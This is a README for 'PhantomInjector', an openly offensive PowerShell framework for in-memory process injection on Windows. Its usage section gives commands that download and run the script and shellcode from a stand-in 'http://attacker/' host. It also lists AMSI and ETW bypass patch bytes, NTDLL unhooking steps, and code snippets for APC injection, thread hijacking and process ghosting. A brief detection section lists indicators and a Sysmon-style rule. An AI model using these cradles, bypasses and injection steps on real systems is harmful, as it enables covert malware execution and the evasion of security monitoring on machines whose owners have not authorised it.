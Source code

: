 # PhantomInjector – Advanced In-Memory Process Injection Framework

![Use: Red Team](https://img.shields.io/badge/Use-Red_Team-orange) ![License: MIT](https://img.shields.io/badge/License-MIT-blue) ![OS: Windows](https://img.shields.io/badge/OS-Windows-lightgrey)

A stealthy PowerShell-based process injection framework implementing multiple in-memory techniques with evasion capabilities, designed for red team engagements and penetration testing.

---

## Features

- **Multiple Injection Techniques**  
  - APC Injection (Early Bird + `QueueUserAPC`)  
  - Thread Hijacking with crash protection  
  - Process Ghosting (no disk writes)  
  - Classic Remote Thread Injection  

- **Evasion Capabilities**  
  - AMSI bypass via function patching  
  - ETW bypass via `EtwEventWrite` hooking  
  - NTDLL unhooking from disk  
  - Direct syscall support (via in-memory assembly)  

- **Operational Security**  
  - Anti-debug checks  
  - Sandbox detection  
  - Dynamic payload loading  

---

## Architecture

```mermaid
graph TD
    A[Payload Source] --> B{Local/Remote}
    B --> C[Local File]
    B --> D[Web Download]
    C --> E[In-Memory Load]
    D --> E
    E --> F[Evasion Checks]
    F --> G[Injection Method]
    G --> H[APC/ThreadHijack/Ghosting/RemoteThread]
    H --> I[Shellcode Execution]

---

## Usage

### 1. Basic Injection

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/PhantomInjector.ps1')
Invoke-PhantomInjector `
  -PayloadPath shellcode.bin `
  -ProcessName notepad `
  -InjectionMethod APC
```

### 2. Remote Payload with ETW/AMSI Bypass

```powershell
iex (irm http://attacker/PhantomInjector.ps1)
Invoke-PhantomInjector `
  -PayloadUrl http://attacker/shellcode.bin `
  -BypassAMSI `
  -BypassETW `
  -InjectionMethod ThreadHijack
```

### 3. Process Ghosting (No Disk)

```powershell
$loader = [System.Text.Encoding]::UTF8.GetString((
  Invoke-WebRequest 'http://attacker/PhantomInjector.ps1').Content)
iex $loader
Invoke-PhantomInjector `
  -PayloadUrl http://attacker/beacon.bin `
  -InjectionMethod GhostProcess
```

---

## Technical Deep Dive

### Evasion Techniques

#### AMSI Bypass

Patches **AmsiScanBuffer** in memory to return `0x80070057` (`E_INVALIDARG`):

```csharp
byte[] patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }; // mov eax,0x80070057; ret
```

#### ETW Bypass

Overwrites **EtwEventWrite** with a single `RET` instruction:

```csharp
byte[] patch = { 0xC3 }; // ret
```

#### NTDLL Unhooking

1. Load a clean copy of `ntdll.dll` from disk.  
2. Compare exported function bytes against the in-memory copy.  
3. Overwrite hooked functions in memory:

```csharp
Marshal.Copy(cleanBytes, 0, hookedAddr, 0x20);
```

---

### Injection Methods

#### APC Injection

1. Allocate RWX memory in the target process (`VirtualAllocEx`).  
2. Write shellcode (`WriteProcessMemory`).  
3. Queue APC to all threads (`QueueUserAPC`).  
4. Resume threads to trigger execution.

```csharp
QueueUserAPC(allocAddr, hThread, IntPtr.Zero);
ResumeThread(hThread);
```

#### Thread Hijacking

1. Enumerate and suspend a target thread.  
2. Capture and save its context.  
3. Write shellcode to a new RWX region.  
4. Redirect the thread’s instruction pointer (`Rip/Eip`).  
5. Resume thread.

```csharp
context.Rip = (ulong)allocAddr;
SetThreadContext(hThread, ref context);
```

#### Process Ghosting

1. Begin an NTFS transaction (TxF).  
2. Write a legitimate template EXE into the transaction.  
3. Spawn the process suspended via `NtCreateSection` / `NtCreateProcessEx`.  
4. Inject shellcode.  
5. Commit the transaction to delete the on-disk file, leaving only the in-memory process.

```csharp
NtCreateSection(out hSection, SEC_ALL_ACCESS, IntPtr.Zero, 0,
                PAGE_EXEC_READ, SEC_IMAGE, hFile);
NtCreateProcessEx(out hProcess, PROC_ALL_ACCESS, IntPtr.Zero,
                  GetCurrentProcess(), CREATE_SUSPENDED, hSection, …);
```

---

## Detection & Mitigation

### Indicators of Compromise (IoCs)

- PowerShell spawning uncommon processes with network connections (e.g., Notepad).  
- RWX memory allocations in high-privilege processes.  
- APC calls to non-module memory regions.  
- Unusual patches in `ntdll.dll` at runtime.

### Defensive Measures

```yaml
# Sysmon Configuration Snippet
- rule: PhantomInjector Detection
  desc: Detects common injection patterns from PowerShell
  conditions:
    - ParentImage: "powershell.exe"
    - (AllocationProtect: "0x40" OR Protect: "0x40")  # PAGE_EXECUTE_READWRITE
    - CreateRemoteThread: true
  action: alert
```

---

## Credits

- **Author**: 0xMaz Mohamed Alzhrani  
- Techniques inspired by APCry, Process Ghosting studies, and community malware research.

---

## License

MIT — Use responsibly and only on authorized systems.  
```
